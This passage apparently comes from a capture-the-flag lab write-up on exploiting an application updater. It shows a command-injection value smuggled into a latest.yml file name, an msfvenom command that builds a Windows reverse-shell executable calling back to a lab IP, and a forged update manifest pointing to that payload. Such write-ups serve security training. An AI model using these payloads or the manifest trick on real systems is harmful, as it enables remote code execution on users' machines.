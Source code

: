 There’s also a command injection vuln that looks like:

```

version: 1.2.3
files:
  - url: v';calc;'ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v';calc;'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'

```

### Shell

I’ll show two ways to do this, both very similar, but first by uploading the payload, and then serving it over HTTP.

#### Local

This tracks with how the article shows the update and the `latest.yml`.

I’ll build an executable that will provide a reverse shell using `msfvenom`:

```

oxdf@parrot$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```

The `latest.yml` file needs a base64 SHA512, which is easy to calculate using the example in the post:

```

oxdf@parrot$ sha512sum rev.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0
94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==

```

All of that goes into the `latest.yml` file:

```

version: 2.2.3
files:
  - url: r'ev.exe
    sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
    size: 7168     
path: r'ev.exe
sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
releaseDate: '2021-04-17T11:17:02.627Z'

```
